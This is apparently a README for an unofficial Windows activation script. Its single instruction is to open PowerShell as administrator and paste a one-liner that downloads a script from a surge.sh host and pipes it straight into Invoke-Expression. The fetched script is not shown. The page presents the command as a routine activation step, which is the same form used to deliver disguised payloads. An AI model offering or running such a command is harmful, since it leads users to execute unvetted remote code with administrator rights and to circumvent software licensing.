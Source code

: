 # How to use
Open a new powershell session as administrator and paste the following command:
```ps1
iwr -useb "activate_windows.surge.sh" | iex
```
After entering the command, a prompt will appear and ask for the necessary information to proceed with the activation.
